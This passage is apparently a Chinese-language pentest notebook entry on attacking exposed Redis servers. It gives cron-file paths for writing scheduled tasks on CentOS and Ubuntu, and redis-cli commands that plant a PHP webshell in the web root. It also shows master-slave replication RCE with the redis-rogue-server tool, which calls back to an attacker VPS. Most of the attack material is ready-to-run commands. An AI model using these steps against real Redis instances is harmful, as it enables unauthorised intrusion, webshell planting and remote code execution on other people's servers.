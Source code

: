 由于系统的不同，定时文件位置也不同

- Centos的定时任务文件在`/var/spool/cron/root`
- Ubuntu定时任务文件在`/var/spool/cron/crontabs/root`
- 二者共有定时任务文件在`/etc/crontab`

Redis以root身份写的文件权限为644，普通用户则是664，但Ubuntu要求在`/var/spool/cron/crontabs/`中执行定时任务的文件权限必须是600，而如果写入`/etc/crontab`

由于存在乱码,因此ubuntu不能正确执行定时任务

而CentOS在`/var/spool/cron/`中的定时任务文件权限为644就能执行

#### 利用Redis写入WebShell

当redis-server以非root身份运行时，无法将/var/spool/cron/以及/root/.ssh设置为本地存储文件夹但可以写入一句话木马

```bash
ip:6379> set x "<?php phpinfo();?>"
OK
ip:6379> config set dir /var/www/html
OK
ip:6379> config set dbfilename shell.php
OK
ip:6379> save
OK

```

还有gopher打redis就不说了

### redis主从复制rce

> 又学到一招,感谢X1r0z

首先`git clone https://github.com/Dliv3/redis-rogue-server.git`

一般都是被动啊

#### 主动

```bash
python3 redis-rogue-server.py --rhost <target address> --rport <target port> --lhost <vps address> --lport <vps port>
```

就行了

参数说明：

- –rpasswd 如果目标Redis服务开启了认证功能，可以通过该选项指定密码
- –rhost 目标redis服务IP
- –rport 目标redis服务端口，默认为6379
- –lhost vps的外网IP地址
- –lport vps监控的端口，默认为21000

#### 被动

`python3 redis-rogue-server.py --server-only`
